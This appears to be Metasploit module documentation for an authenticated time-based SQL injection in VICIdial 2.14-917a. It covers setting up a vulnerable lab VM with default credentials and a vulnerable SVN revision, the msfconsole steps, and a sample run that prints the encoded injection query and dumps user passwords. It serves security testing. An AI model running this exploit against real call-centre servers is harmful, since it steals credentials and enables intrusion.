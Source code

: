 ## Vulnerable Application

This module exploits a single authenticated SQL Injection vulnerability in VICIdial, affecting version 2.14-917a.

VICIdial does not encrypt passwords by default.

VICIBox/VICIdial includes an auto-update mechanism, so be aware when creating vulnerable boxes.

### Install

#### Version 11.0.1 Setup

1. **Download the ISO**:
   [ViciBox_v11.x86_64-11.0.1-md.iso](http://download.vicidial.com/iso/vicibox/server/ViciBox_v11.x86_64-11.0.1-md.iso)

2. **Create a VM**:
   - Connect to the shell using the default credentials:
     `root:vicidial` (Note: The keyboard layout is QWERTY by default).

3. **Run the setup and reboot the VM**:
   - After rebooting, **do not** run the command `/usr/local/bin/vicibox-install` until after the next step.

4. **Vulnerable Revision Setup**:
   - Run the following command to install a vulnerable version of VICIdial:
```
svn checkout -r 3830 svn://svn.eflo.net:3690/agc_2-X/trunk /usr/src/astguiclient/trunk
```
   - Revision 3830 is vulnerable to both SQL Injection and RCE.
   - Note: The CVEs have been patched starting from revision 3848.

5. **Legacy Installation**:
   - Run the installation in legacy mode:
```
vicibox-install --legacy
```

6. **Installer Output Example**:
```
vicibox11:~ # vicibox-install --legacy

ViciBox Installer

Legacy mode activated
Use of uninitialized value $string in substitution (s///) at /usr/local/bin/vicibox-install line 137.
Use of uninitialized value $string in substitution (s///) at /usr/local/bin/vicibox-install line 138.
Use of uninitialized value $string in substitution (s///) at /usr/local/bin/vicibox-install line 137.
Use of uninitialized value $string in substitution (s///) at /usr/local/bin/vicibox-install line 138.

The installer will ask questions based upon the role that this server is
to provide for the ViciBox Call Center Suite. You should have the database
and optionally archive servers setup prior to installing any other servers.
The installer will not run without there being a configured database! If this
server is to be the database then it must be installed before the archive server.
Verify that all servers are connected to the same network and have connectivity
to each other before continuing. This installer will be destructive to the server if it is run.

Do you want to continue with the ViciBox install? [y/N] : y

Do you want to enable expert installation? [y/N] : 

The Internal IP address found was 192.168.1.4.
Do you want to use this IP address for ViciDial? [Y/n] : y

Will this server be used as the Database? [y/N] : y
Do you want to use the default ViciDial DB settings? [Y/n] : y

Will this server be used as a Web server? [y/N] : y

Will this server be used as a Telephony server? [y/N] : y

Will this server be used as an Archive server? [y/N] : y
Archive server IP (192.168.1.4) : 
Archive FTP User (cronarchive) : 
Archive FTP Password (archive1234) : 
Archive FTP Port (21) : 
Archive FTP Directory () : 
Archive URL (http://192.168.1.4/archive/) : 
Use of uninitialized value $localsvn in concatenation (.) or string at /usr/local/bin/vicibox-install line 1513, <STDIN> line 14.

The local SVN is build 240419-1817 version 2.14-916a from SVN 
Do you want to use the ViciDial version listed above? [Y/n] : y

Do you want to disable the built-in firewall? [y/N] : y


---  ViciBox Install Summary  ---

Expert   : No
Legacy   : Yes
Database : Yes
Web      : Yes
Telephony: Yes
First Srv: Yes
Have Arch: No
Archive  : Yes
Firewall : Disabled

---  Configuration Information  ---
-  Database  -
Use of uninitialized value $DBsvnrev in concatenation (.) or string at /usr/local/bin/vicibox-install line 1609, <STDIN> line 16.
SVN Rev  : 
IP Addr  : 192.168.1.4
Name     : asterisk
User     : cron
Password : 1234
Cust User: custom
Cust Pass: custom1234
Port     : 3306


Please verify the above information before continuing!
Do you want to continue the installation? [y/N] : y


Beginning installation, expect lots of output...

Disabling firewall...
Removed /etc/systemd/system/multi-user.target.wants/firewalld.service.
Removed /etc/systemd/system/dbus-org.fedoraproject.FirewallD1.service.
Use of uninitialized value $DBsvnrev in numeric ne (!=) at /usr/local/bin/vicibox-install line 208, <STDIN> line 17.
Use of uninitialized value $localsvn in numeric ne (!=) at /usr/local/bin/vicibox-install line 208, <STDIN> line 17.
Use of uninitialized value $DBsvnrev in concatenation (.) or string at /usr/local/bin/vicibox-install line 218, <STDIN> line 17.
Local SVN revision matches DB revision: 
Doing general DataBase requirements...
Doing Master-specific MySQL setup...
Configuring Web Server...
Created symlink /etc/systemd/system/httpd.service → /usr/lib/systemd/system/apache2.service.
Created symlink /etc/systemd/system/apache.service → /usr/lib/systemd/system/apache2.service.
Created symlink /etc/systemd/system/multi-user.target.wants/apache2.service → /usr/lib/systemd/system/apache2.service.
Configuring Telephony Server...
Configuring Archive Server...
Nouveau mot de passe : MOT DE PASSE INCORRECT : trop simple/systématique
Retapez le nouveau mot de passe : passwd: password updated successfully
Created symlink /etc/systemd/system/multi-user.target.wants/vsftpd.service → /usr/lib/systemd/system/vsftpd.service.
Loading GMT and Phone Codes...

Seeding the audio store, this may take a while...

PLEASE use secure passwords inside vicidial. It prevents hackers
and other undesirables from compromising your system and costing
you thousands in toll fraud and long distance. A secure password
Contains at least one capital letter and one number. A good example
of a secure password would be NrWZDqL1Rg37uuC.

Don't feed the black market, secure your systems properly!

System should be installed. Please type 'reboot' to cleanly load everything.

```

7. **Post-Installation**:
   - After installation, **reboot** the system.
   - Access the web panel by navigating to the administration page and completing the initial setup.

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/scanner/http/vicidial_sql_enum_users_pass`
1. Do: `set RHOSTS <ip>`
1. Do: `set RPORT <port>`
1. Do: `set TARGETURI <path>`
1. Do: `set COUNT <number>`
1. Do: `set SqliDelay <number>`
1. Do: `run`
1. The module will exploit the SQL injection and return the extracted usernames and passwords

## Options

### COUNT

Number of records to dump. Defaults to 1.

### SqliDelay

Delay in seconds for SQL Injection sleep. Defaults to 1.

## Scenarios

### ViciBox 11.0.1

```
msf6 auxiliary(scanner/http/vicidial_sql_enum_users_pass) > run http://192.168.1.4
[*] Running module against 192.168.1.4

[*] Checking if target is vulnerable...
[+] Target is vulnerable to SQL injection.
[*] {SQLi} Executing (select group_concat(HCx) from (select cast(concat_ws(';',ifnull(User,''),ifnull(Pass,'')) as binary) HCx from vicidial_users limit 1) em)
[*] {SQLi} Encoded to (select group_concat(HCx) from (select cast(concat_ws(0x3b,ifnull(User,repeat(0x88,0)),ifnull(Pass,repeat(0x3f,0))) as binary) HCx from vicidial_users limit 1) em)
[*] {SQLi} Time-based injection: expecting output of length 13
[+] Dumped table contents:
vicidial_users
==============

    User  Pass
    ----  ----
    6666  password

[*] Auxiliary module execution completed
```
